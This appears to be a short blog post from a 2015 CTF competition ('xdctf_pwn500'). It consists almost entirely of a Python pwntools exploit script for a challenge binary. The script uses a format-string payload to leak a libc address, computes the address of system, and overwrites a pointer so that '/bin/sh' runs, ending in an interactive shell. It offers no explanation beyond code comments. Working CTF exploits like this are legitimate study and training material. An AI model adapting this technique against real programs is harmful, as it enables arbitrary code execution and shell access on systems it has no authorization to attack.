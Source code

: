 ```yaml
---  
layout: post  
title: "xdctf_pwn500"  
date: 2015-10-06 14:27:24 +0800  
comments: true  
categories:   
---  
```

from binascii import *  
from pwn import *  
  
r = process('./jwc')  
#r = remote('192.168.56.101', 6666)  
  
def opt(n):  
	print r.recvuntil('exit')  
	r.sendline(n)  
  
opt('1')	#register	  
print r.recvuntil('chars')  
r.sendline('namname')  
print r.recvuntil('self')  
r.sendline('despppppppppppp')  
  
  
opt('2')	#exam	math  
print r.recvuntil('dota')  
r.sendline('1')  
print r.recvuntil('?')  
r.sendline('104')  
print r.recvuntil('OK')  
r.sendline('c'*104)  
  
  
opt('5')	#resit  
print r.recvuntil('dota')  
r.sendline('1')  
  
opt('2')	#exam	math  
print r.recvuntil('dota')  
r.sendline('2')  
print r.recvuntil('?')  
r.sendline('4')  
print r.recvuntil('OK')  
r.sendline('abcd')  
  
printf_plt = 0x4009B0  
puts_got = 0x0602330  
  
libc = ELF('/usr/lib/libc.so.6')  
system_l = libc.symbols['system']  
__libc_start_main_l = libc.symbols['__libc_start_main']  
  
  
opt('1024')	#secret  
print r.recvuntil(':)')  
r.sendline('1')  
payload  = ''  
payload += '%11$pccc'  
payload += 'aaaaaaaa'  
payload += 'aaaaaaaa'  
payload += p64(printf_plt)  
r.sendline(payload)  
  
  
opt('3')	#leak  
print r.recvuntil('math: 0')  
recv_data = r.recvuntil('en')  
print (recv_data)  
  
__libc_start_main_r = int((recv_data)[1:15],16)-240  
system_r = system_l - __libc_start_main_l + __libc_start_main_r  
log.info('__libc_start_main_r'+hex(__libc_start_main_r))  
log.info('__libc_start_main_l'+hex(__libc_start_main_l))  
log.info('system_l'+hex(system_l) )  
log.info('system_r'+hex(system_r) )  
  
opt('1024')	#secret  
print r.recvuntil(':)')  
r.sendline('1')  
payload  = ''  
payload += '/bin/sh\x00'  
payload += 'aaaaaaaa'  
payload += 'aaaaaaaa'  
payload += p64(system_r)  
r.sendline(payload)  
  
opt('3')	#shell  
r.interactive()  
